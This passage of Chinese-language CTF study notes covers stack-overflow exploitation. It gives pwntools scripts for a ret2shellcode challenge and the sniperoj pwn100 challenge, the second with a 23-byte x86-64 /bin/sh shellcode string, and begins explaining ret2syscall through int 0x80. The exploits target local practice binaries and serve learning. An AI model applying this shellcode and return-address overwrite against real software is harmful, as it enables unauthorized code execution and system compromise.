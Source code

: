 ```
#!/usr/bin/env python
from pwn import *
sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
shellcode+='a'*(112-len(shellcode))
print shellcode
buf2_addr = 0x804a080
sh.sendline(shellcode + p32(buf2_addr))
sh.interactive()
```

## sniperoj-pwn100-shellcode-x86-64：

23字节shellcode

"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

首先根据 gdb 确定偏移，然后把因为有个 leave 指令会破坏前面的，所以前面的填充为脏数据，然后加上返回地址占据的 8 位空间，确定在 buf_addr 后面 24+8 填充 shellcode

```
from pwn import *
sh = process('./shellcode')
shellcode_x64 = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
sh.recvuntil('[')
buf_addr = sh.recvuntil(']', drop=True)
buf_addr = int(buf_addr, 16)
payload = 'b' * 24 + p64(buf_addr + 32) + shellcode_x64
print payload
sh.sendline(payload)
sh.interactive()
```

## ret2syscall

ret2syscall 即控制程序执行系统调用来获取 shell

关于系统调用的知识：

> **Linux 的系统调用通过 int 80h 实现**，用系统调用号来区分入口函数
>
> 
>
> **应用程序调用系统调用的过程是：**
>
> 1、把**系统调用的编号存入 EAX**
>
> 2、把**函数参数存入其它通用寄存器**
>
> 3、**触发 0x80 号中断**（int 0x80）

那么我们如果希望通过系统调用来获取 shell 就需要把系统调用的参数放入各个寄存器，然后执行 int 0x80 就可以了
